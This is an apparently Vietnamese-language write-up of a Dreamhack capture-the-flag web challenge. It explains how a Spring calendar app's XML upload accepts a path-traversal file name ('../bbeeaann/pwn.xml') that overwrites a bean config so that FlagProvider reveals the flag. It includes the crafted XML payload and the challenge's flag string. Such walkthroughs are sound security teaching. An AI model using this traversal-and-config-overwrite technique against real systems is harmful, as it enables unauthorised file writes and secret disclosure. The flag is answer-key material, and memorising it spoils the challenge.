







---
{
  title: Plant beans🌱,
  date: 2026-11-11,
  ctf: Dreamhack,
  category: web,
  difficulty: Bronze 2,
  tags:
    [
      Path Traversal,
      File Upload,
      Source Code Review,
      Spring,
      Bean Override,
      XML
    ]
}
---

# Đề bài 
Let's work hard to plant beans!
https://dreamhack.io/wargame/challenges/3103
# Solution
## Lướt qua source tìm cách lấy Flag
Truy cập challenge 

Ta có giao diện là cuốn lịch với tính năng upload file `.xml` để import lịch trình vào, hoặc nhập thẳng vào trong giao diện


Trước hết phải kiếm xem `FLAG` nằm ở đâu, thấy có file `FlagProvider.class` ở folder `util/` gồm 4 file:
| Class | Vai trò | getText(YearMonth) trả về | Ghi chú |
|---|---|---|---|
| TitleProvider | Interface (hợp đồng) | Chuỗi String | Khai báo method `getText(YearMonth)`, không tự quyết định nội dung chuỗi. |
| MonthlyTitleProvider | Bản triển khai mặc định | Tháng và năm, ví dụ `2026년 11월` |  |
| EnvironmentTitleProvider | Bản triển khai đọc cấu hình môi trường | Giá trị biến `CALENDAR_HEADER`; nếu không có thì trả `나의 캘린더` | Dùng giá trị mặc định nếu biến môi trường chưa được đặt. |
| FlagProvider | Bản triển khai đọc flag | Giá trị từ `System.getenv("FLAG")` | Lấy flag trong biến môi trường `FLAG`. |
:::info
`Interface` = hợp đồng (chỉ khai tên method, không có thân).
`Impl` (implementation) = class thực thi hợp đồng đó (viết code bên trong).
:::

## Vậy các class này được sử dụng ở đâu?
Kiểm tra `bbeeaann/calendar.xml` và `controller/MainController.java`:
```
<bean id="headerFormatter" class="com.dream.calendar.util.MonthlyTitleProvider"/>
```
-> Được sử dụng để cung cấp tên cho tiêu đề (Title Provider) cho bean với `id="headerFormatter"`

```java
@GetMapping({"/"})
public String index(@RequestParam(required = false) String month, Model model) {
  YearMonth selectedMonth = this.parseMonth(month);
  model.addAllAttributes(this.calendarModelFactory.create(selectedMonth));
  TitleProvider titleProvider = (TitleProvider)this.componentRegistry.getBean("headerFormatter", TitleProvider.class);
  model.addAttribute("pageHeading", titleProvider.getText(selectedMonth));
  return "index";
}
```
-> Gán `titleProvider` với String lấy từ id `headerFormatter` rồi thêm thuộc tính `pageHeading` để in ra thành tiêu đề tại `templates/index.html`:
```html
<h1 th:text="${pageHeading}">2026년 8월</h1>
```
Mà cả 3 impl lại cùng `implements TitleProvider` nên thay nhau được 
-> Vậy ý đồ của bài bây giờ đã rõ, chỉ cần đổi bean sang `FlagProvider` sẽ có in ra flag ở tiêu đề.

Để làm được vậy thì ta cần phải ghi được file vào folder `bbeeaann/` với 
```html
<bean id="headerFormatter" class="com.dream.calendar.util.FlagProvider"/>
```
## Flow hoàn chỉnh

## Cách để ghi file vào folder `bbeeaann/`
Kiểm tra source code, đọc route `/schedules/upload` trong file `MainController.java`
```java
...
import com.dream.calendar.service.ScheduleService;
...
@PostMapping({"/schedules/upload"})
public String uploadScheduleXml(@RequestParam("scheduleXml") MultipartFile scheduleXml, RedirectAttributes redirectAttributes) {
  try {
     String savedPath = this.scheduleService.uploadXml(scheduleXml.getOriginalFilename(), scheduleXml.getBytes());
     redirectAttributes.addFlashAttribute("message", "XML 업로드 완료: " + savedPath);
  } ...
  return "redirect:/";
}
```
Có 2 dòng lệnh chính, ta cùng đọc để hiểu cách các hàm hoạt động
1. Ta kiểm tra `scheduleService.uploadXml()` ở file `service/ScheduleService`
```java
public synchronized String uploadXml(String originalFilename, byte[] xml) {
      ... else if (xml != null && xml.length != 0) {
         try {
            Path uploadDirectory = this.storageFile.getParent();
            Files.createDirectories(uploadDirectory);
            Path destination = uploadDirectory.resolve(Path.of(originalFilename)).normalize();
            Files.createDirectories(destination.getParent());
            Files.write(destination, xml, new OpenOption[0]);
            return destination.toString().replace('\\', '/');
         } 
      ...
   }
```
- `public synchronized String uploadXml(String originalFilename, byte[] xml)`

| Thành phần | Ý nghĩa |
|---|---|
| public | Cho phép code ở nơi khác gọi hàm này. |
| synchronized | Với cùng một đối tượng `ScheduleService`, mỗi lúc chỉ một luồng được chạy hàm này. Nó giúp tránh thao tác đồng thời, không phải cơ chế kiểm tra đường dẫn. |
| String | Nếu chạy thành công, hàm trả về một chuỗi ký tự. Ở đây là đường dẫn file. |
| uploadXml | Tên hàm. |
| String originalFilename | Tham số chứa tên file upload, ví dụ "lich.xml". |
| byte[] xml | Tham số chứa nội dung file dưới dạng một mảng byte. |

- `else if (xml != null && xml.length != 0) {...}`

| Biểu thức | Ý nghĩa |
|---|---|
| xml != null | Biến xml có chứa một mảng dữ liệu, không phải null. |
| xml.length != 0 | Mảng có ít nhất một byte (length là số phần tử trong mảng). |
| && | Nghĩa là VÀ; cả hai điều kiện phải đúng. |
| xml != null && xml.length != 0 | xml tồn tại và có ít nhất một byte dữ liệu. |
:::info
Java cũng kiểm tra từ trái sang phải: nếu xml là null, nó không đọc tiếp xml.length.
:::

-
| Dòng code | Giải thích |
|---|---|
| Path uploadDirectory = this.storageFile.getParent(); | Lấy thư mục cha của `storageFile` và lưu vào `uploadDirectory`. Path là kiểu dữ liệu đại diện cho đường dẫn tệp hoặc thư mục. |
| Files.createDirectories(uploadDirectory); | Tạo thư mục `uploadDirectory` nếu nó chưa tồn tại. Nếu thư mục đã có thì vẫn chạy bình thường. |
| Path destination = uploadDirectory.resolve(Path.of(originalFilename)).normalize(); | Ghép tên tệp do người dùng gửi lên (`originalFilename`) với `uploadDirectory` để tạo đường dẫn đích. `normalize()` rút gọn các thành phần như `.` và `..` trong đường dẫn. |
| Files.createDirectories(destination.getParent()); | Tạo thư mục cha của đường dẫn đích nếu thư mục đó chưa tồn tại. |
| Files.write(destination, xml, new OpenOption[0]); | Ghi các byte trong xml vào tệp tại đường dẫn `destination`. Nếu tệp đã tồn tại, nội dung mặc định sẽ bị ghi đè. |
| return destination.toString().replace('\\', '/'); | Trả về đường dẫn dưới dạng chuỗi; đổi dấu gạch chéo ngược `\` thành dấu gạch chéo `/`. |


Ở đầu file có khai báo `storageFile`
```java
public ScheduleService() {
  this(Path.of("src", "main", "resources", "upload_sch", "schedules.xml"));
}

public ScheduleService(Path storageFile) {
  this.storageFile = storageFile.toAbsolutePath().normalize();
  this.load();
}
```
Đường dẫn được ghép từ các phần `src`, `main`, `resources`, `upload_sch`, `schedules.xml`. Ngay sau đó, constructor nhận Path lưu vào `storageFile`:
`src/main/resources/upload_sch/schedules.xml`
-> `Path uploadDirectory = this.storageFile.getParent();` = `src/main/resources/upload_sch`

Vậy thì các tệp mà ta upload lên sẽ nằm trong `upload_sch/` và các thư mục con của nó. 
Thế nhưng `upload_sch/` nằm chung folder với `bbeeaann/` nên ta có thể upload tệp vào `bbeeaann/` bằng Path Traversal vì filter tên của `uploadXml()` (xml tồn tại và có ít nhất một byte dữ liệu) không hề lọc `../`

Cùng phân tích lại câu lệnh này:
```java
...
destination = uploadDirectory.resolve(Path.of(originalFilename)).normalize();
...
Files.write(destination, xml, new OpenOption[0]);
```
| Câu lệnh | việc xảy ra |
|---|---|
| uploadDirectory.resolve(Path.of(originalFilename)) | Ghép hai đường dẫn: `src/main/resources/upload_sch` + tên file `../pwn.xml`, thành `src/main/resources/upload_sch/../pwn.xml`. |
| .normalize() | Rút gọn phần .., kết quả là `src/main/resources/pwn.xml`. |
| Files.write(destination, xml, new OpenOption[0]); | Ghi nội dung xml vào `src/main/resources/pwn.xml`. |

## Full exploit
Vậy mọi thứ giờ đã liên kết với nhau, việc ta cần làm là sử dụng Path Traversal để viết file xml vào folder `bbeeaann/` với
```java
<bean id="headerFormatter" class="com.dream.calendar.util.FlagProvider"/>
```

1. Tạo file `pwn.xml` với nội dung giống hệt `calendar.xml`, chỉ đổi từ `MonthlyTitleProvider` thành `FlagProvider`
```xml
<?xml version="1.0" encoding="UTF-8"?>
<beans xmlns="http://www.springframework.org/schema/beans"
       xmlns:task="http://www.springframework.org/schema/task"
       xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
       xsi:schemaLocation="http://www.springframework.org/schema/beans https://www.springframework.org/schema/beans/spring-beans.xsd
                           http://www.springframework.org/schema/task https://www.springframework.org/schema/task/spring-task.xsd">

    <bean id="scheduleService" class="com.dream.calendar.service.ScheduleService"/>

    <bean id="calendarModelFactory" class="com.dream.calendar.service.CalendarModelFactory">
        <constructor-arg ref="scheduleService"/>
    </bean>

    <bean id="headerFormatter" class="com.dream.calendar.util.FlagProvider"/>

    <task:scheduler id="xmlDirectoryScheduler" pool-size="1"/>
    <task:scheduled-tasks scheduler="xmlDirectoryScheduler">
        <task:scheduled ref="xmlService" method="syncDirectory" fixed-delay="5000"/>
    </task:scheduled-tasks>
</beans>

```
2. Upload file lên web


3. Chỉnh `filename` về `../bbeeaann/pwn.xml`



-> Flag:
`DH{e5ad96a4dbbf39d8e1a75957f03648b3f9be1b3aa540a64411e138e39212a234}`
